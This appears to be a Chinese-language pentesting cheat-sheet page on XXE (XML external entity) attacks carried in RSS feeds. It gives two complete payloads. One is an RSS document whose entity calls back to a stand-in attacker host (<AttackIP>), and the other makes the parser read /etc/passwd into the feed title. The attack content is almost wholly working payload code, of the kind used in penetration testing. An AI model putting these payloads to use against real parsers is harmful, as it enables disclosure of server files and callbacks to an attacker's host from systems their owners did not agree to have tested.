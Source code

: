 ## RSS - XEE

具有 RSS 格式的有效 XML 以利用 XXE 漏洞。

### Ping back

Simple HTTP request to attackers server

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "http://<AttackIP>/rssXXE" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>XXE Test Blog</title>
<link>http://example.com/</link>
<description>XXE Test Blog</description>
<lastBuildDate>Mon, 02 Feb 2015 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>Test Post</description>
<author>author@example.com</author>
<pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

### Read file

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```
